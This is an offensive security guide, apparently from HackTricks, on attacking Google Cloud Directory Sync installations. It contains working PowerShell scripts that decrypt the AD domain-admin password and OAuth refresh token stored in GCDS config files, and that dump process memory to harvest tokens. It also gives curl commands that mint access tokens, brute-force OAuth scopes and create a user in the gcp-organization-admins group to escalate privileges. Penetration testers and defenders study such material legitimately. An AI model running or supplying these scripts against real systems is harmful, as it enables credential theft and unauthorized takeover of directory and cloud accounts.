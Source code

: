 # GCDS - Google Cloud Directory Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

This is a tool that can be used to **sync your active directory users and groups to your Workspace** (and not the other way around by the time of this writing).

It's interesting because it's a tool that will require the **credentials of a Workspace superuser and privileged AD user**. So, it might be possible to find it inside a domain server that would be synchronising users from time to time.

> [!NOTE]
> To perform a **MitM** to the **`config-manager.exe`** binary just add the following line in the `config.manager.vmoptions` file: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCDS**, get information about the configuration and **even the passwords and encrypted credentials**.

Also note that GCDS won't synchronize passwords from AD to Workspace. If something it'll just generate random passwords for newly created users in Workspace as you can see in the following image:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

The binary `config-manager.exe` (the main GCDS binary with GUI) will store the configured Active Directory credentials, the refresh token and the access by default in a **xml file** in the folder **`C:\Program Files\Google Cloud Directory Sync`** in a file called **`Untitled-1.xml`** by default. Although it could also be saved in the `Documents` of the user or in **any other folder**.

Moreover, the registry **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** inside the key **`open.recent`** contains the paths to all the recently opened configuration files (xmls). So it's possible to **check it to find them**.

The most interesting information inside the file would be:

```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```

Note how the **refresh** **token** and the **password** of the user are **encrypted** using **AES CBC** with a randomly generated key and IV stored in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (wherever the **`prefs`** Java library store the preferences) in the string keys **`/Encryption/Policy/V2.iv`** and **`/Encryption/Policy/V2.key`** stored in base64.

<details>

<summary>Powershell script to decrypt the refresh token and the password</summary>

```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
    $regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
    if (-not $regKey) {
        Throw "Registry key not found: HKCU\$regPath"
    }
}
catch {
    Write-Error "Failed to open registry key: $_"
    exit
}

# Get Base64-encoded IV and Key from the registry
try {
    $ivBase64 = $regKey.GetValue($ivKeyName)
    $ivBase64 = $ivBase64 -replace '/', ''
    $ivBase64 = $ivBase64 -replace '\\', '/'
    if (-not $ivBase64) {
        Throw "IV not found in registry"
    }
    $keyBase64 = $regKey.GetValue($keyKeyName)
    $keyBase64 = $keyBase64 -replace '/', ''
    $keyBase64 = $keyBase64 -replace '\\', '/'
    if (-not $keyBase64) {
        Throw "Key not found in registry"
    }
}
catch {
    Write-Error "Failed to read registry values: $_"
    exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aes.KeySize = 256
    $aes.BlockSize = 128
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes

    $decryptor = $aes.CreateDecryptor()
    $memoryStream = New-Object System.IO.MemoryStream
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
    $cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
    $cryptoStream.FlushFinalBlock()
    $plaintextBytes = $memoryStream.ToArray()

    $cryptoStream.Close()
    $memoryStream.Close()

    return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```

</details>

> [!NOTE]
> Note that it's possible to check this information checking the java code of **`DirSync.jar`** from **`C:\Program Files\Google Cloud Directory Sync`** searching for the string `exportkeys` (as thats the cli param that the binary `upgrade-config.exe` expects to dump the keys).

Instead of using the powershell script, it's also possible to use the binary **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** with the param `-exportKeys` and get the **Key** and **IV** from the registry in hex and then just use some cyberchef with AES/CBC and that key and IV to decrypt the info.

### GCDS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `config-manager.exe` process (it's the name of the GCDS main binary with GUI) and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump config-manager.exe processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
    "ya29\.[a-zA-Z0-9_\.\-]{50,}",
    "1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
    New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
    Write-Output "Dumping process with PID: $processId"
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
    $dumpFile = $_.FullName
    $baseName = $_.BaseName
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

    Write-Output "Extracting strings from $dumpFile"
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
    & $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

    $outputFiles = @($asciiStringsFile, $unicodeStringsFile)

    foreach ($file in $outputFiles) {
        foreach ($regex in $tokenRegexes) {

            $matches = Select-String -Path $file -Pattern $regex -AllMatches

            $uniqueMatches = @{}

            foreach ($matchInfo in $matches) {
                foreach ($match in $matchInfo.Matches) {
                    $matchValue = $match.Value
                    if (-not $uniqueMatches.ContainsKey($matchValue)) {
                        $uniqueMatches[$matchValue] = @{
                            LineNumber = $matchInfo.LineNumber
                            LineText   = $matchInfo.Line.Trim()
                            FilePath   = $matchInfo.Path
                        }
                    }
                }
            }

            foreach ($matchValue in $uniqueMatches.Keys) {
                $info = $uniqueMatches[$matchValue]
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
            }
        }

        Write-Output ""
    }
}

Remove-Item -Path $dumpFolder -Recurse -Force
```

</details>

### GCDS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCDS - Scopes

> [!NOTE]
> Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.
>
> Also, the refresh token is not valid in every application.

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Create a user and add it into the group `gcp-organization-admins` to try to escalate in GCP

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'

# You could also change the password of a user for example
```

> [!CAUTION]
> It's not possible to give the new user the Super Amin role because the **refresh token doesn't have enough scopes** to give the required privileges.

{{#include ../../../banners/hacktricks-training.md}}





